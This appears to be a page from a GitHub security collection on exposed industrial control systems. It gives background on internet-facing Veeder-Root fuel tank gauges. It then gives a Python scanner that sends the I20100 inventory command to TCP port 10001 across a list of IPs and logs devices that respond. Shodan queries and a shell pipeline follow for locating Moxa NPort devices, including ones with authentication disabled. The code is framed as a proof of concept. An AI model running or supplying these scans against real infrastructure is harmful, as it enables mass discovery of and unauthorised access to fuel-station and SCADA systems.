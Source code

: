 In 2015, HD Moore, the creator of Metasploit, published an article disclosing over 5,800 gas station Automated Tank Gauges (ATGs) which were publicly accessible. Besides monitoring for leakage, these systems are also instrumental in gauging fluid levels, tank temperature, and can alert operators when tank volumes are too high or have reached a critical low. ATGs are utilized by nearly every fueling station in the United States and tens of thousands of systems internationally. They are most commonly manufactured by Veeder-Root, a supplier of fuel dispensers, payment systems, and forecourt merchandising. For remote monitoring of these fuel systems, operators will commonly configure the ATG serial interface to an internet-facing TCP port (generally set to TCP 10001). This script reads the Get In-Tank Inventory Report from TCP/10001 as a proof of concept to demonstrate the arbitrary access.

```python
#!/usr/bin/env python3

 
import time
import socket            
with open("/tmp/ATG_SCAN.txt",'r') as atg_file:
    for line in atg_file.read().splitlines():
        try:
            atg_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            port = 10001
            search_str = 'IN-TANK INVENTORY'               
            msg = str('\x01' + 'I20100' + '\n').encode('ascii')
            atg_socket.connect((line, port))
            atg_socket.send(msg)
            time.sleep(.25)
            response = atg_socket.recv(1024).decode()
            if search_str in response:
                with open("/tmp/ATG_DEVICES.txt", 'a') as file2:
                    file2.write(line + "\t ->\tATG Device\n")
            else:
                continue
            atg_socket.close()   
        except:
            pass 
atg_file.close()
```

Video PoC:

https://www.youtube.com/watch?v=HkO4cs95erU&t=818s

## Access Moxa Devices:

SCADA system that uses Moxa brand products to establish connectivity and communication with industrial devices that are being monitored and controlled in a critical infrastructure or industrial process.

```console
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```
